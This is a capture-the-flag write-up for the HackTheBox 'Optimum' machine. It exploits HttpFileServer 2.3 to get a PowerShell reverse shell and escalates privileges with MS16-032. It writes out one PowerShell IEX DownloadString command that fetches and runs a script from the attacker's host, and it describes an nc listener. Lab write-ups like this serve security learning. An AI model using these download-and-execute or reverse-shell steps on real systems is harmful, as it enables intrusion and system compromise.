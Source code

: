 ```yaml
---
layout: default
title: Optimum
parent: HackTheBox
nav_order: 5
---
```

![](pictures/logo-optimum.PNG)


## Table of contents
{: .no_toc .text-delta }



- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.

![](pictures/site-optimum.png)

I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.


![](pictures/ssploit-optimum.png)



## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell

![](pictures/edit-optimum.png)

Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)

![](pictures/cm-optimum.png)

Annnnd we get some access



![](pictures/user-optimum.png)



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.

![](pictures/systeminfo-optimum.png)


From here in order to automate the privesc search process I downloaded from my local python server, [Sherlock](https://github.com/rasta-mouse/Sherlock), written by RastaMouse.
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root

![](pictures/root-optimum.png)



Overall, I found the privesc portion of this box very useful!